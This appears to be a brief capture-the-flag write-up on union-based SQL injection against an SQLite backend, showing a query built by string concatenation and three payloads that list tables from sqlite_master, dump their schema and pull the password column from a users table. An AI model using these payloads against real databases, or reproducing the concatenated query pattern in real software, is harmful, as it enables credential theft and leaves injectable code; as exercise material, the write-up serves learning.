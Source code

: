 ### Error based sql injection in sqlite3

first thing i learn is always u don't need to give ' or 1=1  u have to close it only if it is query is  like

``` sql = 'SELECT * FROM Users WHERE Name ="' + uName + '" AND Pass ="' + uPass + '"' ```

our quey looks like this   ``` $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; ```


* Finding database tables: ( database() )

      1 AND 1=0 UNION ALL select 1,name from sqlite_master -- '
 
* Finding   tables and columns names (table_name and col.. from information schema )

      1 AND 1=0 UNION ALL select 1,sql from sqlite_master -- '
 
 and i found a column called password , let's find if any intresting there 
 
      1 AND 1=0 UNION ALL SELECT  1, password from users where id=1  -- '
 
 and we get the flag 
 
[Redacted]
